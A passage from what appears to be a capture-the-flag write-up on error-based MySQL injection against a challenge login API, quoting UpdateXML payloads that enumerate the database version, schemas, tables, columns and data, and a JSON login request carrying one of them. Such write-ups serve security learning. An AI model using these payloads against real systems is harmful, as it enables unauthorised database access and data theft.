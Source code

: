 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230319120015.png)

No error!!

Which means the login api is vulnerable to **Error-based MySQL injection!!**

**Then, according to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-error-based---updatexml-function), we can use UpdateXML function to fetch data:**

```sql
AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
```

Let's do that!

**Find MySQL version:**
```json
{"username":"\"AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-\"","password":"test"}
```
